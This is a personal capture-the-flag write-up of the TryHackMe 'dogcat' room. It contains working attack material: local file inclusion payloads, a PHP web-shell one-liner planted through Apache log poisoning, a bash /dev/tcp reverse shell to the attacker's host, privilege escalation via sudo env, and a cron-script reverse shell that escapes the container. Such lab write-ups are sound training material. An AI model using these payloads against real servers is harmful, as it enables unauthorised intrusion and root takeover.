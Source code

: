 #+title: [THM] dogcat writeup

 # Hello, this is the first writeup I have said

* Reconnaissance
First I decided to use ~masscan~ on all of the machine ports to limit the ports
I would then run more elaborate scans. However, since that scan did not wield
any results, I went back to good old ~nmap~.
#+begin_code sh
sudo nmap -Pn <MACHINE_IP>
#+end_code
This checks only the most frequently used ports but gave us a good place to
start; two ports were open:
- 22 which belongs to ~ssh~
- 80 which signals the existence of a webserver
After that I ran
#+begin_code sh
sudo nmap -A -p22,80 <MACHINE_IP>
#+end_code
to get more information on the software these ports were running.
#+begin_quote
22: OpenSSH 7.6p1, running on a Ubuntu Machine
80: Apache 2.4.38 WebServer
#+end_quote

** Further enumeration
*** Viewing the source code
Just by checking the source code for the website through the /Inspect tool/ in
Firefox, it is easy for us to see that there are two directories called dogs and
cats, each of which holds pictures in the form of /<NO>.jpg/ where NO ranges
from 1 to 10.

*** Gobuster
Even though it is a generally good habit to use ~gobuster~ to check for any
useful accessible files, it was not the case in this room. In fact, I think that
it was due to this type of scanning that I had to terminate the vm and restart
it in order for it to respond to my /GET/ requests.

* Exploitation
We see that the website uses ~?view=dog~ to display a random picture for a dog
or a cat respectively, pointing out that we could check for [[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion][Local File
Inclusion]].

After a little bit of toying around with that, realising that the string passed
needs to contain either /dog/ or /cat/ in order to be executed by the php
back-end, we try to see what files we can access:
#+begin_code php
?view=../../../../../etc/passwd%00dog

?view=dog/../../../../../etc/passwd

?view=dogs
#+end_code
The first one showed an error about the file, while the second one proved to be
_very_ interesting. The server side did not search for the /etc/passwd file but
for /etc/passwd.php. The backend adds an extension to what we pass!

That means, that instead of dog or cat the backend reads a dog.php or cat.php
respectively. It may be beneficial to access it:

Using a php wrapper we tailor the request to our needs:
#+begin_quote
?view=php://filter/convert.base64-encode/dog
#+end_quote
Getting back the code for /dog.php/ encoded in base64.
To decode it, avoiding online tools one can simply use

#+begin_code sh
echo '<paste encoded code here>' > dog.b64
base64 -d dog.b64 > dog.php
#+end_code

We do the same for /cat.php/ but it turns out that these files have no actual
meaning. They do not reveal any useful information. This changes when we get the
/index.php/. Inside it we realise that the ~.php~ extension that gets added to
our requests can be changed using the ~?ext=~ parameter!

** The passwd file
Going back to previous requests we can finally see /etc/passwd!!
#+begin_code php
?view=dog/../../../../../etc/passwd&ext=
#+end_code
Completely minimal installation; Only one user has terminal access, ~root~ and
every other account listed on passwd has ~nologin~ set as shell.

Bruteforcing root over ssh does not wield any results :(

** Checking the logs
After just a little bit of googling, we can see that the apache server holds
logs of all the requests at ~/var/log/apache2/access.log~, and it also logs the
user agent we have used for the request.

We can see now how to proceed, manually set the agent to a webshell and run all
the commands through it. Will it work?

Yup, it worked.

** Webshell
Either through ~curl~, ~burpsuite~ or ~zap~ we set the user-agent to
#+begin_code php
<?php system($_GET['cmd']) ?>
#+end_code
and modify our link so that it also has a cmd parameter, which I set to ~ls~ to
verify that it is working

** Remote shell >> Webshell
To get from the webshell to a remote shell is nothing difficult; We open a
listener in our machine ~nc -lvnp <port>~ and then use a /good enough/ command
on the cmd parameter

I went with this one ( after checking with ~whereis bash~ )
#+begin_code sh
bash -c "bash -i >& /dev/tcp/<MYIP>/<MYPORT> 0>&1"
#+end_code

/Hint/: Do not forget to encode it as url[fn:2]

* Privilege escalation
Now the difficult part is over; two of the flags are within our reach without
even trying to gain root privileges... but what if...!

Naturally the first step was to check for sudo privileges ~sudo -l~
It lets us run ~env~ without a password, which means, pretty much that we can do
anything we want as root on the machine.
#+begin_code sh
sudo env bash
#+end_code

The third flag is in the ~/root~ directory

* Where do we go from here
I started digging around the system, hoping I could find something useful to see
where to go from there. I ran ~ls -al~ on ~/~ and discovered a ~.dockerenv~. It
seems we're inside a Docker environment!

(Well obviously, it is in the room description... Except if you forgot to read
it thoroughly)

Next stop was to check whether ~crontab -l~ had something to show... No luck there

Not long after I realised that the ~/opt~ directory was nearly empty ( In
hindsight I think it may have had been wise to check for ~du~ at that point ),
and inside it was an interesting ~backup.sh~ file.

I added a reverse shell there, opened a listener on my machine, just in case it
was scheduled to run every now and then and kept digging. Lucky me[fn:1] after a
little time I saw that my netcat listener was now a root shell outside of the
docker environment!!

Getting the flag from there was extremely easy.
* Summary
Even though I had met and toyed around with LFI before, it was the first time I
had to use it in a CTF room and proved to be quite interesting to me, relying on
[[https://github.com/swisskyrepo/PayloadsAllTheThings][PayloadsAllTheThings]] to get some information on techniques and places to start

Also, it was interesting to see the docker aspect of the room, which I could not
understand even hours after completing the room ( it seemed way too simple )

* Footnotes
[fn:2] Obviously one can always perform this step using many other techniques.
This one just feels more natural to me.

[fn:1] After finishing this article, I decided to check the writeups suggested
in thm, to see if anyone had a better explanation one more logical than my
/hunch/. It was impressively simple: The backup directory that existed in
~/opt/backups~ was significantly /newer/ than the shell script, meaning that the
machine was backed up regularly

